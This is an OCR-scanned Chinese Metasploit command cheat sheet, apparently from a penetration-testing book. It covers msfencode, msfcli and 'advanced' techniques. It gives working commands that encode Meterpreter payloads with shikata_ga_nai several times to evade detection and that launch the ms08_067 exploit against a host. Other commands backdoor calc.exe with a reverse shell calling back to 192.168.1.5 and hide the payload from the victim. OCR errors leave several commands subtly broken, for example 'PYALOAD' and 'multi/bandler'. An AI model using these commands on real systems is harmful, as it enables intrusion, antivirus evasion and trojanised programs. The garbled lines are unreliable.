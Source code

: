 4.MSFencode命令

msfencode -h

列出MSFencode的帮助信息。

msfencode -l

列出所有可用的编码器。

msfencode -t（c，eif.exe，java，js_be，perl，raw，ruby，vba，vbs，loop-vbs，asp，war，macho）

显示编码缓冲区的格式。

msfencode -i payload.raw -o encoded_payload,exe -e x86/shikata_ga_nai -c 5 -t exe

使用 shikata_nai编码器对payload.raw文件进行5次编码，然后导出一个名为encoded_payload.exe的文件。

msfpayload windows/meterpreter/bind_tcp LPORT=443 R|msfencode -e x86/_countdown -c 5 -t raw|msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded_payload.exe

创建一个经过多种编码格式嵌套编码的攻击载荷。

msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c

创建一个纯字母 数字的shellcode，由ESI寄存器指向shellcode，以C语言格式输出。

5.MSFcli命令。

msfcli | grep exploit

仅列出渗透攻击模块。

msfcli | grep exploit/windows

仅列出与Windows相关的渗透攻击模块。

msfcli exploit/windows/smb/msf08_067_netapi PYALOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.142 E

对172.16.32.142 发起ms08_067_netapi渗透攻击，配置了bind_tcp攻击载荷，并绑定在443端口进行监听。

6.Metasploit高级忍术

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R|msfencode -x calc.exe -k -o payload.exe -c x86/shikata_ga_nai -c 7 -t exe

创建一个反弹式的Meterpreter攻击载荷，回连到192.168.1.5 主机的443端口，使用calc.exe作为载荷后门程序，让载荷执行流一直运行在被攻击的应用程序中，最后生成以.shikata_ga_nai编码器编码后的攻击载荷可执行程序payload.exe。

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R|msfencode -x calc.exe -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe

创建一个反弹式的meterpreter攻击载荷，回连到192.168.1.5主机的443端口，使用calc.exe作为载荷后门程序，不让载荷执行流一直运行在被攻击的应用程序中，同时在攻击载荷执行后也不会再目标主机上弹出任何信息。这种配置非常有用，当你通过浏览器漏洞控制了远程主机，并不想让计算机程序打开呈现在目标用户面前，同样，最后生成用.shikata_ga_nai 编码的攻击载荷程序payload.exe。

msfpayload windows/meterpreter/bind_tcp LPORT=443 R|msfencode -0 payload.exe -e x86/shikata_ga_nai -c 7 exe & & msfcli multi/bandler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E

创建一个raw格式的bind_tcp模式Meterpreter攻击载荷，用shikata_ga_nai编码7次，输出以payload.exe命名的windows可执行程序文件，同时启用多路监听方式进行执行。
